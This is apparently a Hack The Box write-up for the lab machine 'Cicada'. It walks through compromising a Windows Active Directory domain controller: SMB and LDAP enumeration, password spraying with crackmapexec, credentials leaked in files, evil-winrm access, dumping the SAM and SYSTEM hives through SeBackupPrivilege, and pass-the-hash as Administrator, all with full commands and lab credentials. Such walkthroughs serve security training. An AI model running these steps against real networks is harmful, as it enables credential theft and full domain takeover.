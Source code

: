 ```yaml
---
title: HTB - Cicada
description: The Cicada is an Easy HTB season 6 machine involves exploiting a Windows Active Directory setup.
author: mashhood
date: 2024-09-30 12:12:00 +0800
description: 
categories: [Writeup]
tags: [htb]
media_subpath: '/assets/img/posts/30092024/'
---
```


# HTB - Cicada

The Cicada is an Easy HTB season 6 machine involves exploiting a Windows Active Directory setup. By enumerating SMB shares, we gradually gain access to sensitive information. After finding passwords in shared files and an LDAP domain dump, we escalate privileges to gain full control of the system.

## Enumeration

After performing an initial Nmap scan, several interesting services were identified:

```
─(kali㉿kali)-[~/Desktop]  
└─$nmap 10.10.11.35 -sC -sV --min-rate 1000 -oN nmap-cicada.txt 
# Nmap 7.94SVN scan initiated Mon Sep 30 01:31:37 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV --min-rate 1000 -oN nmap-cicada.txt 10.10.11.35
Nmap scan report for 10.10.11.35
Host is up (0.20s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-30 12:32:03Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, 
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)

Host script results:
| smb2-time: 
|   date: 2024-09-30T12:32:49
|_  start_date: N/A
|_clock-skew: 7h00m15s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

There is no web based technology available here. So, with SMB (`445/tcp`) and LDAP (`389/tcp`, `636/tcp`) available, it’s worth investigating these services further. Since nmap shows that the Domain name of the target system is cicada.htb, we will add it to our `/etc/hosts` file
```
─(kali㉿kali)-[~/Desktop]  
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.11.35     cicada.htb
```

## SMB Enumeration

Using `smbclient`, we attempt to list shares:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ smbclient -L 10.10.11.35
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
DEV             Disk
HR              Disk
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share
```

The interesting shares here are `DEV` and `HR`. The `HR` share have a file named `Notice from HR.txt` . 
```
─(kali㉿kali)-[~/Desktop]  
└─$ smbclient \\\\10.10.11.35\\HR -N
smb: \> ls
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024
```
The password `Cicada$M6Corpb*@Lp#nZp!8` for the new employee's account was found within this document.
So, we attempt to gather usernames via `crackmapexec` by brute-forcing the RID which reveals several users:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ crackmapexec smb 10.10.11.35 -u anonymous -p "" --rid-brute

1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1601: CICADA\emily.oscars (SidTypeUser)
```

We create a wordlist with the found usernames and attempt to brute force credentials using `crackmapexec` which reveals that the credential we discovered before is for the user **Michael Wrightson**:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ crackmapexec smb 10.10.11.35 -u users-cicada.txt -p pass.txt

SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

```
michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

## LDAP Enumeration

Using Michael Wrightson’s credentials, we perform an LDAP domain dump:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ ldapdomaindump ldap://10.10.11.35 -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

From the domain dump, we discover **David Orelious’s password** in the description section of domain users:

![Desktop View](/cicada-ldap.png)

```
david.orelious:aRt$Lp#7t*VQ!3
```

## SMB Access - DEV Share

With David Orelious’s credentials, we access the **DEV** SMB share:

```bash
smbclient //10.10.11.35/DEV -U david.orelious
```

In the **DEV** share, we find a **Backup_script.ps1** file, which contains another set of credentials for **Emily Oscars**:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

```
emily.oscars:Q!3@Lp#M6b*7t*Vt
```

## Privilege Escalation

#### Evil-WinRM Access
Using Emily Oscar’s credentials, we establish a connection via `evil-winrm`:

```bash
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

Once connected, we check the privileges with `whoami /priv`. Here, we notice that Emily has high-privilege tokens enabled:

```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

####  Dumping SAM and SYSTEM

With **SeBackupPrivilege** enabled, we can use it to dump the **SAM** and **SYSTEM** registry hives to extract hashes for privilege escalation.
Copy the `sam` file and `system` to a folder with these command and download it to the attacker machine.
``` powershell
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
Then use `pypykatz` to extract the hash from these files.
```bash
pypykatz registry --sam sam system
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

With this hash we can login as Administrator using `evil-winrm`.
```
evil-winrm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

# Reference
<https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege>
